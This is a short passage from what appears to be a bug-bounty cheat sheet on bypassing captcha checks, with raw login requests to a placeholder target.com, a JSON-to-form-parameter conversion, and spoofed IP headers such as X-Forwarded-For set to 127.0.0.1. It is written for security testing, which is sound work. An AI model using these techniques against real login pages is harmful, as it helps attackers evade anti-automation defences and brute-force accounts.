 ### Convert JSON data to normal request parameter
```
POST / HTTP 1.1
Host: target.com
[...]

{"_RequestVerificationToken":"xxxxxxxxxxxxxx","_Username":"daffa","_Password":"test123"}


--------------------------------------------------------------------------------------

POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```
### Try custom header to bypass captcha
```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```
### Change some specific characters of the captcha parameter and see if it is possible to bypass the restriction.
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```